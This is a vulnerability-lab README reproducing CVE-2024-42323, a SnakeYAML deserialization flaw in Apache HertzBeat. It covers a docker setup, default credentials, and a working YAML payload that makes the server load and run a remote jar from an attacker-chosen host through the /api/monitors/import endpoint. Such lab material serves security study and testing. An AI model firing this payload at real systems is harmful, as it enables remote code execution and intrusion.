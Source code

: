 # Apache-HertzBeat SnakeYaml Deserialization Vulnerability (CVE-2024-42323)

[中文版本(Chinese version)](README.zh-cn.md)

Apache HertzBeat is an open-source real-time monitoring tool. In affected versions, due to the use of a vulnerable version of SnakeYAML for parsing user-controlled YAML files, authenticated attackers can configure malicious YAML scripts when importing new monitoring types via the /api/monitors/import and /api/alert/defines/import APIs, potentially leading to remote code execution.

Affected Versions:

* Apache HertzBeat < 1.6.0

References:

* https://forum.butian.net/article/612
* https://lists.apache.org/thread/dwpwm572sbwon1mknlwhkpbom2y7skbx
* https://github.com/wy876/wiki/blob/main/Apache/Apache-HertzBeat-SnakeYaml%E5%8F%8D%E5%BA%8F%E5%88%97%E5%8C%96%E6%BC%8F%E6%B4%9E(CVE-2024-42323).md

## Vulnerable environment

To run the vulnerable environment:

```
docker-compose up -d
```

This will start a `HertzBeat 1.4.4 service`.

 Once the service is up and running, access the login page at` http://your-ip:1157/dashboard` . 

The default credentials are `admin/hertzbeat`.

## Vulnerability reproduce

Select any monitor and click to import the monitor.

![image-20250225144319776](1.png)

Then, Modify the value field in the uploaded YAML file:

```yaml
- !!org.dromara.hertzbeat.manager.service.impl.AbstractImExportServiceImpl$ExportMonitorDTO
  detected: false
  metrics:
  - basic
  - cache
  - performance
  - innodb
  - status
  - handler
  - connection
  - thread
  - tmp
  - select_type
  - sort
  - table_lock
  - process_state
  - slow_sql
  monitor:
    app: mysql
    collector: !!javax.script.ScriptEngineManager [!!java.net.URLClassLoader [[!!java.net.URL ["http://your-vps-ip:4444/yaml-payload.jar"]]]]
    description: !!javax.script.ScriptEngineManager [!!java.net.URLClassLoader [[!!java.net.URL ["http://your-vps-ip:4444/yaml-payload.jar"]]]]
    host: 127.0.0.1
    intervals: 60
    name: MYSQL_127.0.0.1
    status: 1
    tags:
    - 3
    - 4
  params:
  - field: host
    type: 1
    value: 127.0.0.1
  - field: port
    type: 0
    value: '3306'
  - field: database
    type: 1
    value: null
  - field: username
    type: 1
    value: root
  - field: password
    type: 2
    value: 9XNUiI+whoJ4Wih7yOiVwg==
  - field: timeout
    type: 0
    value: '6000'
  - field: url
    type: 1
    value: null
```

The `/api/monitors/import` endpoint triggers the SnakeYaml deserialization vulnerability.

* Compile the project from` https://github.com/fei9747/yaml-payload/` under jdk11 to generate the payload.
* Example: The generated payload executes the local command `touch /tmp/success`.

Successfully executing the code:

![image-20250225145141924](2.png)

![image-20250225145052690](3.png)
